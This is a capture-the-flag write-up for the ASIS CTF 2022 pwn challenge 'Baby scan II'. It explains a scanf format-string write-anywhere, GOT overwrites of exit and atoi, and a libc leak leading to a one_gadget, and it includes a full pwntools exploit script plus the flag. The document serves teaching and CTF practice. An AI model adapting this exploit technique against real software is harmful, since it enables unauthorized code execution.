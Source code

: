 ```yaml
---
title: "[Pwn] Baby scan II [AsisCTF 2022 Qual]"
date: 2022-10-15 21:06:00
---
```


# 0x0 Introduction

Baby scan II

It seems that the app scans every incoming message and simply removes the rude and offending phrase before displaying the original message.

nc 65.21.255.31 33710


files: [babyscan_2](babyscan_2_c5b1d8e83c4dadd3d3d96f8f9b7ea7a717f48ea0.txz)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerbility

The source code is also given.

```
int main() {
  char size[16], fmt[8], *buf;

  printf("size: ");
  scanf("%15s", size);
  if (!isdigit(*size)) {
    puts("[-] Invalid number");
    exit(1);
  }

  buf = (char*)malloc(atoi(size) + 1);

  printf("data: ");
  snprintf(fmt, sizeof(fmt), "%%%ss", size);
  scanf(fmt, buf);

  exit(0);
}
```

The code here is similar to [baby_scan_1](../baby_scan_1). There are two main difference between this challenge and previous one.

1. `alloc` is replaced by `malloc`
2. program exit instead of ret.

Since program have PIE disabled and we can control the scanf format string. We basically have a write anywhere.

The idea is simple: write target address into the last 8 byte of local variable `size`. use `%9$s` to scan character into that address
```
===
some stack value           <== rsp
9$s\x00\x00\x00\x00\x00    <== size[16]
target_address
RBP
RIP
====
```

Also, since it is partial RELRO, we can overwrite the jmp address of `exit` in GOT and make it jump back to `main` again. Now we have an infinite number of write anywhere.

To leak the address. We can overwrite jmp address of `atoi` with `printf`. Then, we can leak libc address on the stack using `%{offset}$p`


# 0x3 Exploit

```python
from pwn import *

exe = ELF("chall")
exe_rop = ROP(exe)
if args.LOCAL:
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
else:
    libc = ELF("libc.so.6")

context.binary = exe

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print

def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("65.21.255.31", 33710)
    return r


io = start()

one_gadget = 0xe3b01
# one_gadget = 0xe3b31

io.sendlineafter(b"size: ",b"9$s"+b'\x00'*5+exe.got["exit"].to_bytes(8,"little")[:-2:])
io.sendlineafter(b"data: ",exe.sym["main"].to_bytes(8,"little")[:-2:])

io.sendlineafter(b"size: ",b"9$s"+b'\x00'*5+exe.got["atoi"].to_bytes(8,"little")[:-2:])
io.sendlineafter(b"data: ",exe.sym["printf"].to_bytes(8,"little")[:-2:])

io.sendlineafter(b"size",b"1%29$p")
lp(io.recvuntil(b'10x'))
libc.address = int(io.recvuntil(b'data: ',drop=True),16) - libc.libc_start_main_return
lp("libc base",hex(libc.address))
io.sendline(b"\x00")

io.sendlineafter(b"size: ",b"9$s"+b'\x00'*5+exe.got["exit"].to_bytes(8,"little")[:-2:])
io.sendlineafter(b"data: ",(libc.address+one_gadget).to_bytes(8,"little")[:-2:])

io.interactive()

```

# 0x4 Flag

ASIS{fd408e00d5824d7220c4d624f894144e}